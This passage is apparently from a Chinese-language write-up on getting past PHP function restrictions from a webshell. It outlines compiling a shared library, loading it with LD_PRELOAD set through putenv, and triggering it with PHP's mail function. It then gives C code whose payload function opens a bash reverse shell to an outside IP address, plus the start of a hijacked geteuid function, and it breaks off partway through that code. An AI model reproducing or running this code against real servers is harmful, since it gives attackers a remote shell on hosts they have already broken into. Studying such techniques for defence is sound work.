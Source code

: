 ![Alt text](10.png)
### 思路
编制我们自己的动态链接程序。
通过putenv来设置LD_PRELOAD，让我们的程序优先被调用。
在webshell上用mail函数发送一封邮件来触发。
#### 编制我们自己的动态链接程序。
```c
#include<stdlib.h>
#include <stdio.h>
#include<string.h>

void payload(){
         FILE*fp = fopen("/tmp/2.txt","w");
         fclose(fp);
         system("bash -i >& /dev/tcp/132.232.75.90/9898 0>&1");
 }


int geteuid(){
	FILE *fp1=fopen("/tmp/2.txt","r");
	if(fp1!=NULL)
	{
```